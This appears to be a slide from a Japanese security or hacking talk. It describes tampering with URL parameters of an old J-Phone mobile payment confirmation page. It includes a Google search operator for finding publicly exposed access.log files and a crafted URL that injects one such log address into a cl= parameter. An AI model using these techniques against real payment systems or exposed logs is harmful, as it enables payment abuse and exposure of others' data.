

# 2. ?cl=パラメーターとaccess.logの挿入
?nl=http://j-sl.success.ne.jp/pay_enter.cgi&aplno=80&regino=1
このリンクに端末でそのままアクセスしても（pay_enter.cgi&aplno=~~の&の部分は?へと置き換える）、コンテンツが表示されることはないため、実際のOKクリック時には別に渡されるパラメーターがあるのではないかと考えた。

そこで、Access.logを（意図してのものなのかそうでないのか定かではない）公開しているウェブサイトをGoogle検索パラメーター inurl:“access.log”　等で探し出し、
http://jphone/CONFON/jskycmi/ARK2HxiMArb2QK1gDPj1yU/wJ1fUDxjZu2KJ0x/HKMwWnAQShZgW2BYShRKICBYYFhKBEofoFrgWEomgMDAwMDAw/CONFON?nl=http://j-sl.******.ne.jp/pay_enter.cgi&aplno=80&regino=1&cl= http://redl**.com/logs/access.log
と書き換え、上記画面でキャンセルボタンを押した。